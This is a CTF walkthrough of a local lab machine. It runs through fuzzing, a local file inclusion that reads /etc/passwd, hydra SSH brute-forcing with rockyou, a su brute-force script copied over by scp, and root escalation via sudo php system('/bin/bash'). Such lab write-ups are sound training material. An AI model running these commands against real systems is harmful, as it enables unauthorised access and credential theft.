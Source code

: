 ```yaml
---
sticker: emoji//1f469-200d-1f9b3
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 80   | http    |

Seems like a simple machine in terms of open ports, let's fuzz

## FUZZING
---

![](Pasted image 20241226164136.png)

We found a `/shop` directory, let's visit the standard page and this one:


![](Pasted image 20241226164213.png)

Standard apache2 installation, source code is normal too, let's visit the found directory:

![](Pasted image 20241226164307.png)



# RECONNAISSANCE
---

We found something interesting in the page, this appears right when we enter the site:

![](Pasted image 20241226164337.png)

This seems like the server is vulnerable to [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/LOCAL FILE INCLUSION (LFI).md|LFI]], let's test some payloads to check if its true:


![](Pasted image 20241226170019.png)

After testing for a while, I couldn't get anything useful, so, I thought that we already have the name of the file, it is called `archivo`, so let's fuzz for this in order to find anything useful:


```ad-hint
#### Used
---

`gobuster fuzz -u "http://172.17.0.2/shop?archivo=FUZZ" -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt --exclude-length 1112`

I'm using a different wordlist this time, once used, this is what I found:

![](Pasted image 20241226170452.png)

It was too big to fit, so, let's try to `grep` for something like the `/etc/passwd` file:

![](Pasted image 20241226170549.png)

Indeed, it works, I'm able to see some techniques such as a null byte injection and many more, let's read our file, which is located at: `../../../../etc/passwd`

![](Pasted image 20241226170718.png)


```



# EXPLOITATION
---


We found some interesting usernames such as `manchi` and `seller`, let's try to brute force these usernames in order to get access to ssh:

```ad-hint

### Used
---

`hydra -l manchi -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh -t 10`

![](Pasted image 20241226171505.png)

We found some credentials, let's log in:

![](Pasted image 20241226171627.png)


```


Nice, let's proceed with privilege escalation

# PRIVILEGE ESCALATION
---

This is a difficult privilege escalation, after reading another writeup for some sort of hint, I found that the way to escalate privileges is to perform brute force on the other user while being inside of the ssh machine, for this, this script is really helpful:

```ad-hint

#### Escalation

Script: [Linux-Su-Force](https://github.com/Maalfer/Sudo_BruteForce/blob/main/Linux-Su-Force.sh)

We need to get the `rockyou.txt` file and the script into the machine, for this, using scp could help:

`scp /usr/share/wordlists/rockyou.txt manchi@172.17.0.2:/home/manchi/rockyou.txt`

And now the script: 

`scp Linux-Su-Force.sh manchi@172.17.0.2:/home/manchi/Linux-Su-Force.sh`

![](Pasted image 20241226172916.png)

Once we've download it, let's run the script inside the ssh machine:

`./Linux-Su-Force.sh seller rockyou.txt`

![](Pasted image 20241226173125.png)

Nice, password was found!

```


Let's switch into `seller`:

![](Pasted image 20241226173234.png)

Now, let's try to escalate into root user:

### sudo -l

![](Pasted image 20241226173256.png)

We can run sudo on `/usr/bin/php`, let's search gtfobins:

![](Pasted image 20241226173351.png)

So, let's escalate into root:

```ad-hint
### Used
---

`CMD="/bin/bash"`
`sudo php -r "system('$CMD');"`


![](Pasted image 20241226173506.png)

```

Just like that, the CTF is done!



